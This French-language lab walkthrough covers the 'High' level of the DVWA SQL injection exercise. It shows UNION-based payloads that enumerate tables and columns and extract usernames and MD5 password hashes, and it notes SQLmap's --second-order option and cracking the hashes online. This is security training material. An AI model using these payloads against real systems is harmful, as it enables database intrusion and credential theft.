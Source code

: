 # Niveau "High"

Un changement au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de notre recherche et le résultat s’affiche sur la fenêtre principale :

![](../../../../.gitbook/assets/a1dd1c57a6575a56ff5864b9dac6743f.png)

L'injection de notre caractère préféré `"'"` retourne une erreur générique :

![](../../../../.gitbook/assets/03a2758c4de27662e8d49b251f3d11c4.png)

Le fait que l'erreur soit générique n'est pas vraiment gênant, car cela indique bien que le caractère spécial semble être traité comme du code et non comme faisant partie de la donnée. L'injection semble donc être toujours possible :

```sql
6' UNION SELECT 1,2 -- 
```

![](../../../../.gitbook/assets/65391a169a41499b078eabb505cb0762.png)

Récupération des noms des tables :

```sql
'6' UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/bd172c5f7f2447b1243ecd39d9e6992b.png)

Récupération des noms des colonnes :

```sql
'6' UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE table_schema = 'dvwa' -- 
```

![](../../../../.gitbook/assets/d1ea95501c569208c5423279891f13e0.png)

Puis finalement des noms et empreintes des mots de passe des utilisateurs :

```sql
'6' UNION SELECT user,password FROM dvwa.users --  
```

![](../../../../.gitbook/assets/448bc597599a9c79565ffafaa5be8012.png)

L'erreur générique n'augmente pas réellement la difficulté du challenge par rapport au niveau "Low" mais la présence d'une seconde fenêtre peut empêcher les outils automatisés de fonctionner.

L'injection présente ici est une injection nommée "second ordre", et sans l'indiquer explicitement à l'outil il peut ne pas réussir à l'exploiter.

{% hint style="info" %}
Sous `SQLmap` il est possible d'utiliser l'option `--second-order` pour ce type d'injection
{% endhint %}

Une fois fait, la dernière étape reste de cracker les hash md5 \(32 caractères\) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7%20%281%29.png)

